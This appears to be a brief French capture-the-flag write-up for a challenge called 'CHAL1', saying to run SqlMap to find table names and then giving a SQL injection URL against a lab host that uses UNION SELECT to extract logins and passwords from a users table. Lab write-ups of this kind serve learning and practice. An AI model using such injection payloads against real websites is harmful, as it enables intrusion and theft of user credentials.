 ## CHAL1
1. SqlMap pour voir le nom des tables.
2. Taper cette requette:
```http://10.33.3.14:8081/?article=%27UNION%20Select%20null,login,password%20from%20users;```
